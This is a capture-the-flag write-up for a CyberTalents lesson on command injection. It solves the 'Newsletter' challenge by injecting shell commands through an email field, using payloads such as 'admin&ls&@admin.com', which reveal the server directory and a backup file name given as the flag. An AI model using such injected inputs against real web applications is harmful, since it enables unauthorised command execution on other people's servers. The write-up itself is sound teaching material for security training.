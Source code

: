 # Lesson 13: Command Injection

> Lesson Link:\
> *[https://cybertalents.com/learn/introduction-to-cybersecurity/lessons/13-command-injection](https://cybertalents.com/learn/introduction-to-cybersecurity/lessons/13-command-injection)*

## Introduction

In this lesson, we will learn about Command Injection, and how can we use it to execute commands on the server.

> ### What is Command Injection?
>
> #### Command injection is a web security vulnerability that allows an attacker to execute arbitrary operating system commands on the host server that is running an application. Command injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell. In this attack, the attacker-supplied operating system commands are usually executed with the privileges of the vulnerable application. Command injection attacks are possible mainly due to insufficient input validation

## Challenge

> Name:\
> *Newsletter*

---

> Description:\
> *the administrator put the backup file in the same root folder as the application, help us download this backup by retrieving the backup file name*

## Solution

In this challenge, we have a website, and we need to get the backup file name.

Lets try to send this payload to the website:

```html
admin&pwd&@admin.com
```

After sending the request, we will get a response that says:

```html
/var/www/html
```

So, we can see that the website is using `pwd` command to get the current directory, and we can use it to get the backup file name.

Lets try to send this payload to the website:

```html
admin&ls&@admin.com
```

After sending the request, we will get a response that says:

```html
emails_secret_1337.txt hgdr64.backup.tar.gz index.php
```

And Yah ! we got the backup file name.

## Flag

> hgdr64.backup.tar.gz

## References

- [https://www.owasp.org/index.php/Command_Injection](https://www.owasp.org/index.php/Command_Injection)
